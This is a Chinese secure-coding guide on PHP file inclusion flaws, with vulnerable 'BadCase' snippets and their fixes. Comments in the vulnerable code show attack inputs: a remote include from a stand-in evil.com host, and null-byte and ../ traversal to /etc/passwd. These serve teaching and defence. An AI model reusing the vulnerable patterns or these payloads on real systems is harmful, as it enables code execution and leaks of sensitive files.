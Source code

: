## 文件包含【高危】

### 原理概述：
业务系统由于功能实现需要、或者PHP框架本身特性，通常都会通过PHP典型方法包含一些代码文件，如果研发同学编码时，对包含的文件名或文件名部分值没有做好严格校验或过滤，就可能给黑客可趁之机，进而包含黑客想要执行的恶意代码。通常文件包含漏洞分为本地文件包含和远程文件包含。两者区别在于php.ini中allow_url_fopen和allow_url_include选项是否开启。
### 危害
1.直接执行恶意代码，可能导致黑客获取网站控制权甚至是服务器控制权
2.造成敏感信息泄露，如：程序源代码，服务器上的敏感文件如/etc/passwd等
...
### BadCase样例
主要涉及到的函数有：``include()`` ``require()`` ``include_once()`` ``require_once()``
BadCase样例1:
```php
/*
$file通过GET方式获取，未经检查就直接包含，如果php.ini中allow_url_fopen
或者allow_url_include为on，攻击者就能让程序包含一个远程恶意文件
如：page=http://www.evil.com/trojan.txt，其中trojan.txt中有黑客写的恶意代码
如果不开启上述两个选项，也能造成本地包含，攻击者完全可以上传一个带有恶意代码的文件
然后再去包含这个文件
*/

$file=$_GET['page'];
if($file)
{
  include($file);
}
```

BadCase样例2:
```php
/*
看似include中限制了文件名，但实际上黑客可以通过提交%00（即0x00）来对文件名进行截断
如:page=hack.php%00
又因为PHP会对不能执行的文件内容原样输出，所以攻击者也能通过这个特性读取服务器上的敏感文件
如：page=../../../../../etc/passwd%00
*/

$file=$_GET['page'];
if($file)
{
  include($file.".controller.php");
}
```

### 修复建议
1.如无必要，php.ini中设置``allow_url_fopen``与``allow_url_include``均为Off，用以防止远程文件包含（防御本地文件包含见第2-5条建议）；
样例如下：

```
; Whether to allow the treatment of URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-fopen
allow_url_fopen = Off

; Whether to allow include/require to open URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-include
allow_url_include = Off
```

2.在php.ini中设置include_path以及openbase_dir的值为可信赖的路径，只允许包含特定路径下的文件，注意open_basedir的配置，windows下多路径使用分号隔开，Linux下多路径使用冒号隔开
样例如下：
```
; UNIX: "/path1:/path2"
include_path = "/var/www/"
;
; Windows: "\path1;\path2"
include_path = "d:/php/include/"

; open_basedir, if set, limits all file operations to the defined directory
; and below.  This directive makes most sense if used in a per-directory
; or per-virtualhost web server configuration file.
; http://php.net/open-basedir
open_basedir ="/var/allowPath1/:/var/allowPath2/"
```
3.如果需要动态包含文件，则要对传入的参数值做检查，严格禁止文件名中出现如``../``以及``%00``这样的字符，同时要对最终包含的文件名做白名单限制；

参考样例1(<B>首选方案：白名单控制</B>，通常用于在MVC框架中初始化控制器等功能模块，因为通常情况下controller/model/view类总是事先定义好的)：
```php
$file=$_GET['page'];
$allowFileWhiteList=array(file1,file2,file3);  //白名单控制允许包含的文件名
if(!in_array($file,$allowFileWhiteList))
{
  die("Error!");
}
else
{
  include($file.".class.controller.php");
}
```
参考样例2(对文件名做正则校验，适用于无法用白名单的情况)
```php
$file=$_GET['page'];
/*
对文件名做正则检查，通常每个产品线都会有自己的命名规范，且文件名长度也都不会太长
本例中取文件名长度不能超过20个字符，各产品线可根据自己的情况进行调整表达式及文件名长度
*/
$pattern='/^[a-zA-Z]{1,20}$/';
if(!preg_match($pattern,$file))
{
  die("Error!");
}
else
{
  include($file.".controller.php")
}
```
4.如果应用中需要包含的文件名是可预知的，建议直接在代码里面做硬编码，彻底取消由外部传入参数这条途径
